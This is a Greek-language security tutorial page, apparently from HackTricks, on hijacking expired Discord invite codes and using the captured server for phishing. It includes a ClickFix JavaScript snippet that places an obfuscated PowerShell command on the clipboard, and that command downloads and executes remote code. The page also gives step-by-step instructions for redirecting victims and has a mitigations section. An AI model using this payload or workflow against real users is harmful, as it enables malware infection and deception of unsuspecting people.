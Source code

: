 # Discord Invite Hijacking

{{#include ../../banners/hacktricks-training.md}}

Η ευπάθεια του συστήματος προσκλήσεων του Discord επιτρέπει στους απειλητικούς παράγοντες να διεκδικήσουν κωδικούς προσκλήσεων που έχουν λήξει ή διαγραφεί (προσωρινές, μόνιμες ή προσαρμοσμένες) ως νέους προσαρμοσμένους συνδέσμους σε οποιονδήποτε διακομιστή με Boost επιπέδου 3. Με την κανονικοποίηση όλων των κωδικών σε πεζά, οι επιτιθέμενοι μπορούν να προεγγραφούν γνωστούς κωδικούς προσκλήσεων και να υποκλέψουν σιωπηλά την κίνηση μόλις ο αρχικός σύνδεσμος λήξει ή ο πηγαίος διακομιστής χάσει την ενίσχυσή του.

## Τύποι Προσκλήσεων και Κίνδυνος Υποκλοπής

| Τύπος Πρόσκλησης      | Υποκλέψιμος; | Συνθήκη / Σχόλια                                                                                       |
|-----------------------|--------------|--------------------------------------------------------------------------------------------------------|
| Προσωρινός Σύνδεσμος  | ✅           | Μετά την λήξη, ο κωδικός γίνεται διαθέσιμος και μπορεί να επανακαταχωρηθεί ως προσαρμοσμένο URL από έναν ενισχυμένο διακομιστή. |
| Μόνιμος Σύνδεσμος     | ⚠️           | Εάν διαγραφεί και αποτελείται μόνο από πεζά γράμματα και ψηφία, ο κωδικός μπορεί να γίνει διαθέσιμος ξανά.        |
| Προσαρμοσμένος Σύνδεσμος | ✅        | Εάν ο αρχικός διακομιστής χάσει την ενίσχυση επιπέδου 3, η προσαρμοσμένη πρόσκληση γίνεται διαθέσιμη για νέα καταχώρηση.    |

## Βήματα Εκμετάλλευσης

1. Αναγνώριση
- Παρακολουθήστε δημόσιες πηγές (φόρουμ, κοινωνικά δίκτυα, κανάλια Telegram) για προσκλήσεις που ταιριάζουν με το μοτίβο `discord.gg/{code}` ή `discord.com/invite/{code}`.
- Συλλέξτε κωδικούς προσκλήσεων που σας ενδιαφέρουν (προσωρινές ή προσαρμοσμένες).
2. Προεγγραφή
- Δημιουργήστε ή χρησιμοποιήστε έναν υπάρχοντα διακομιστή Discord με προνόμια Boost επιπέδου 3.
- Στις **Ρυθμίσεις Διακομιστή → Προσαρμοσμένο URL**, προσπαθήστε να αναθέσετε τον στοχοθετημένο κωδικό πρόσκλησης. Εάν γίνει αποδεκτός, ο κωδικός διατηρείται από τον κακόβουλο διακομιστή.
3. Ενεργοποίηση Υποκλοπής
- Για προσωρινές προσκλήσεις, περιμένετε μέχρι να λήξει η αρχική πρόσκληση (ή διαγράψτε την χειροκίνητα αν ελέγχετε την πηγή).
- Για κωδικούς που περιέχουν κεφαλαία, η πεζή παραλλαγή μπορεί να διεκδικηθεί αμέσως, αν και η ανακατεύθυνση ενεργοποιείται μόνο μετά την λήξη.
4. Σιωπηλή Ανακατεύθυνση
- Οι χρήστες που επισκέπτονται τον παλιό σύνδεσμο αποστέλλονται ομαλά στον διακομιστή που ελέγχεται από τον επιτιθέμενο μόλις η υποκλοπή είναι ενεργή.

## Ροή Phishing μέσω Διακομιστή Discord

1. Περιορίστε τα κανάλια του διακομιστή ώστε να είναι ορατό μόνο το κανάλι **#verify**.
2. Αναπτύξτε ένα bot (π.χ., **Safeguard#0786**) για να προτρέπει τους νέους χρήστες να επαληθεύσουν μέσω OAuth2.
3. Το bot ανακατευθύνει τους χρήστες σε μια ιστοσελίδα phishing (π.χ., `captchaguard.me`) υπό την προφύλαξη ενός CAPTCHA ή βήματος επαλήθευσης.
4. Εφαρμόστε το κόλπο UX **ClickFix**:
- Εμφανίστε ένα μήνυμα σπασμένου CAPTCHA.
- Οδηγήστε τους χρήστες να ανοίξουν το διάλογο **Win+R**, να επικολλήσουν μια προφορτωμένη εντολή PowerShell και να πατήσουν Enter.

### Παράδειγμα Εισαγωγής Clipboard ClickFix
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
Αυτή η προσέγγιση αποφεύγει τις άμεσες λήψεις αρχείων και εκμεταλλεύεται οικεία στοιχεία διεπαφής χρήστη για να μειώσει την υποψία των χρηστών.

## Mitigations

- Χρησιμοποιήστε μόνιμους συνδέσμους πρόσκλησης που περιέχουν τουλάχιστον ένα κεφαλαίο γράμμα ή μη αλφαριθμητικό χαρακτήρα (ποτέ δεν λήγουν, μη επαναχρησιμοποιήσιμοι).
- Περιστασιακά αλλάξτε τους κωδικούς πρόσκλησης και ανακαλέστε τους παλιούς συνδέσμους.
- Παρακολουθήστε την κατάσταση ενίσχυσης του διακομιστή Discord και τις αξιώσεις για vanity URL.
- Εκπαιδεύστε τους χρήστες να επαληθεύουν την αυθεντικότητα του διακομιστή και να αποφεύγουν την εκτέλεση εντολών που έχουν επικολληθεί από το πρόχειρο.

## References

- From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery – https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/
- Discord Custom Invite Link Documentation – https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link

{{#include /banners/hacktricks-training.md}}
